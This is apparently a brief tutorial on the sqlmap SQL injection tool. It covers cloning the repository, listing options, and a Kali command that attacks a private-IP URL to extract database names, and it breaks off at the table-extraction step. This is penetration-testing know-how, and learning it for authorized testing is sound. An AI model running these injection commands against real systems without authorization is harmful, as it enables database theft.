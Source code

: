 # SQL Map 

Url: http://sqlmap.org/

*Install and Download*

You can download the latest zipball or tarball.
Preferably, you can download sqlmap by cloning the Git repository:
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Basic Command

To get a list of basic options and switches use:
```
python sqlmap.py -h
```
To get a list of all options and switches use:
```
python sqlmap.py -hh
```

### Use SQL for SQL Injection

Extract the database:

Attack the given URL (-u “http://192.168.1.250/?p=1&forumaction=search”) and extract the database names (–dbs):
```
root@kali:~# sqlmap -u "http://192.168.1.250/?p=1&forumaction=search" --dbs

    sqlmap/1.0-dev - automatic SQL injection and database takeover tool
    http://sqlmap.org
```
Extract the tables:


